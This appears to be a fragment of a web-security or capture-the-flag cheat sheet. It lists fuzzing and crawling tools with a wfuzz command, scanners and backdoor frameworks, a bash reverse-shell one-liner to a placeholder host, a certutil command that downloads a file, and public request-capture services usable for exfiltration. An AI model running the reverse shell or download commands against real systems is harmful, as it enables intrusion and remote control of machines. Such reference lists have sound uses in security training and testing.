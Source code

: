     - Subdomains
- Crawler
  - dirb
  - DirBuster
  - git-dumper
  - wfuzz
    ```bash
    wfuzz -c -z file,/raft-large-files.txt -hc 404 "${URL}"
    ```
  - ffuf


#### Payload
- Burpsuit
- [Exploit DB](https://www.exploit-db.com/)
- c-jwt-cracker
- Scanner
  - sqlmap
  - xsser
  - ZAP
- Backdoor
  - weevely
  - veil
  - BeEF
- Reverse Shell
  - `/bin/sh -i >& /dev/tcp/<HOST>/<PORT> 0<&1`
  - [reverse ICMP shell (icmpsh)](https://github.com/bdamele/icmpsh)


#### Connection
- `/dev/tcp/<HOST>/<PORT>`
- telnet
- nc / ncat / socat
- `$ certutil.exe -urlcache -f <url> <filename>`
- [HTTPie](https://devhints.io/httpie)


#### Public Temp Server
- webhook.site
  - unique URL (https / CORS)
  - unique email
- beeceptor
- hookbin.com
- requestbin.net


### Background

#### HTTP Protocol
- [Basics of HTTP](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Basics_of_HTTP)
  - MIME
    > type/subtype;parameter=value
- [URI schemes](https://en.wikipedia.org/wiki/List_of_URI_schemes)
  - Data URI
    > data:[\<mediatype\>][;base64],\<data\>
